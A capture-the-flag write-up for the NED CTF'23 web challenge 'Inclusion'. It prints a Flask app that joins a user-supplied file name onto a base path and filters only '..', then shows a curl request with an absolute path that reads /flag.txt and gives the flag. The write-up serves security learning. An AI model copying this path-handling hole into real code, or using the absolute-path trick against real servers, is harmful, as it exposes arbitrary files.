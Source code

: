 ```yaml
---
title: NED CTF'23 - Web - Inclusion
date: '2023-07-03'
tags: ['web', 'nedctf', 'file-inclusion', 'flask']
draft: false
summary: Inclusion was a very simple file inclusion challenge in which we had to include /flag.txt to read the flag.
---
```


## Challenge Description

"A path to explore, a journey to embark. The challenge is hidden, but not in the dark. Traverse the way, and find your mark. The flag is waiting, for you to hark."

Author: [Saad Akhtar](https://twitter.com/ssaadakhtarr)

[Challenge-Link](http://159.223.192.150:5001/)

![chal-info](/static/writeups/nedctf/web/inclusion0.png)

## Solution

The challenge description is a hint to the challenge. The challenge is a simple file inclusion challenge. Downloading the files, we see the following files are given to us:

![files](/static/writeups/nedctf/web/inclusion1.png)

Now, let's checkout `app.py`

```python:app.py
import os
from flask import Flask, request

app = Flask(__name__)

@app.route("/")
def index():
    file_name = request.args.get("file")
    if file_name is None:
        return "No file name specified."
    if ".." in file_name:
        return "Invalid file name."
    file_path = os.path.join("/dev/null", file_name)
    try:
        with open(file_path, "r") as f:
            contents = f.read()
            return contents
    except:
        return "The file does not exist or cannot be opened."

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=5001)
```

Well, we can see that, we need to provide an argument `file` to the server, which will be used to open a file. Now, the `/dev/null` is being used with `os.path.join`, however, it doesn't have any effect on the file path. So, we can simply use a parameter like `file=flag.txt` to get the flag. However, the `..` is being filtered, so we can't use `file=../flag.txt`. So, let's look at the `Dockerfile` and see where the flag is being stored

```Dockerfile:Dockerfile
FROM python:3.9-alpine

WORKDIR /app
COPY app.py /app/
COPY flag.txt /

RUN pip install flask

EXPOSE 5001
CMD ["python3", "app.py"]
```

Well, the flag is being copied to `/`, so, if we pass the following parameter `?file=/flag.txt`, we can get the flag, let's get the flag:

```bash
$ curl http://159.223.192.150:5001?file=/flag.txt
```

![flag](/static/writeups/nedctf/web/inclusion2.png)

```md
Flag: NCC{l0c4l_f1l3_1nclu5i0n_ex!sts}
```
